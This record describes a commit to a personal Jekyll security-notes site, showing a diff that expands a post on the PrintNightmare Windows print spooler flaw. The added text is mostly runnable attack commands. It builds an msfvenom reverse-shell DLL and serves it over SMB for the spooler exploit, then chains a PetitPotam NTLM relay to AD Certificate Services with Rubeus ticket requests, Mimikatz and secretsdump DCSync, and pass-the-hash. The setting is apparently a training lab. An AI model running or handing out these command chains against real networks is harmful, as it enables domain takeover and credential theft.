

Before and after one commit to daniel2005d/daniel2005d.github.io, a Jekyll site: the page built from _posts/2024-07-19-cve-2021-34527.md, in a window 1280 px wide and 1400 px high, scrolled down 1015 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add more content

````diff
--- a/_posts/2024-07-19-cve-2021-34527.md
+++ b/_posts/2024-07-19-cve-2021-34527.md
@@ -10,6 +10,7 @@
 This is a vulnerability that allows the use of the Windows Spooler Service to run remote code
 
 ## Detect
+Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.
 
 ```python
 impacket-rpcdump @<IP> | grep -E 'MS-RPRN|MS-PAR'
@@ -18,6 +19,8 @@
 Protocol: [MS-RPRN]: Print System Remote Protocol
 
 ```
+After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using msfvenom.
+
 
 [https://www.sygnia.co/threat-reports-and-advisories/demystifying-the-print-nightmare-vulnerability/](https://www.sygnia.co/threat-reports-and-advisories/demystifying-the-print-nightmare-vulnerability/)
 
@@ -28,3 +31,98 @@
 ## CVE-2021-1675 (RCE)
 
 [https://github.com/cube0x0/CVE-2021-1675/tree/main](https://github.com/cube0x0/CVE-2021-1675/tree/main)
+
+### Exploit
+
+Create a dll with msfvenom
+```bash
+msfvenom -p /windows/x64/reverse_tcp LHOST=[host] LPORT=[port] -f dll > dll.dll
+```
+Share file using smbserver
+```bash
+smbserver.py -smb2support share dll.dll
+```
+
+Start msf with multi handler
+
+Run the exploit
+```
+python CVE-2021-1675.py [domain]/[username]:password@IP '\\192.168.217.129\share\backupscript.dll'
+```
+
+# PetitPotam (MS-EFSRPC)
+
+[CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)
+
+## Exploit
+
+Start ntlm relay
+```bash
+sudo ntlmrelayx.py -debug -smb2support --target http://crtp.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
+```
+
+In other window run [PetitPotam.py](https://github.com/topotam/PetitPotam)
+```bash
+python3 PetitPotam.py 172.16.5.225 172.16.5.5
+```
+
+With base64 certificate result:
+
+### Requesting a TGT Using gettgtpkinit.py from PKINITtools
+
+```bash
+python3 gettgtpkinit.py crtp.LOCAL/C01\$ -pfx-base64 [base64value]
+```
+
+### Rubeus
+
+Once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.
+
+```powershell
+.\Rubeus.exe asktgt /user:DC01$ /certificate:[base64 certificate] /ptt
+```
+
+### Performing DCSync with Mimikatz
+
+```powershell
+.\mimikatz.exe
+mimikatz # lsadump::dcsync /user:crtp\krbtgt
+
+```
+
+### Setting the KRB5CCNAME Environment Variable
+
+```bash
+export KRB5CCNAME=dc01.ccache
+```
+
+### Using Domain Controller TGT to DCSync
+
+```bash
+secretsdump.py -just-dc-user crtp/administrator -k -no-pass "DC01$"@DC01.CRTP.LOCAL
+```
+
+**This tool will retrieve the username from the ccache file.**
+
+> We can see this by typing klist (using the klist command requires installation of the krb5-user package on our attack host. This is installed on ATTACK01 in the lab already).
+
+> apt install krb5-user
+
+### Confirming Admin Access to the Domain Controller
+
+```
+NetExec smb [IP ADDRESS] -u administrator -H [HASH]
+```
+
+### Submitting a TGS Request for Ourselves Using getnthash.py
+
+We can also take an alternate route once we have the TGT for our target. Using the tool getnthash.py from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (PAC) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
+
+```bash
+python /PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 crtp.LOCAL/DC01$
+```
+
+### Using Domain Controller NTLM Hash to DCSync
+```bash
+secretsdump.py -just-dc-user crtp/administrator "DC01$"@[IP Address] -hashes [HASH]
+```
````
Also changed, not shown: _posts/2024-06-21-powershell.md (+25 -0 lines), _posts/2024-09-10-wmi.md (added, +18 -0 lines), _posts/2024-09-13-android.md (added, +51 -0 lines), _posts/2024-09-13-tcpdump.md (added, +34 -0 lines), _posts/2024-09-20-GeneralLinux.md (added, +13 -0 lines), _posts/2024-09-20-NoPAC_ActiveDirectory.md (added, +37 -0 lines).
